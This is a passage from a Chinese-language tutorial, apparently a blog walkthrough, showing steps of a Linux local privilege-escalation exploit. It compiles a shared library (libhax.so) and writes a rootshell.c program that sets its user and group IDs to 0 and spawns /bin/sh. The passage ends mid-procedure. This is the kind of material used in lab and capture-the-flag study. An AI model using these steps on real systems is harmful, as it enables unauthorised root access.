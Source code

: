 >  
 确认文件写入成功 


```
cat libhax.c

```

<img src="https://img-blog.csdnimg.cn/38d2cefd641640a0b7ef55d443e6e15d.png" alt="在这里插入图片描述">

>  
 然后编译这个脚本 


```
gcc -fPIC -shared -ldl -o libhax.so libhax.c

```

<img src="https://img-blog.csdnimg.cn/01b6c855a07c4b34b9547eefdb50d9ba.png" alt="在这里插入图片描述">

>  
 查看编译生成的os文件 


<img src="https://img-blog.csdnimg.cn/175a1d8f62c44cb8a3e6de2679623825.png" alt="在这里插入图片描述">

#### 5.将第二部分的代码写入rootshell.c并编译

>  
 将第二部分的代码写入rootshell.c文件并执行命令生成rootshell文件 这里我直接采用vim创建文件 


```
vim rootshell.c

```

>  
 写入如下内容 


```
#include &lt;stdio.h&gt;
int main(void){<!-- -->
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}

```

>  
 确认文件写入成功 

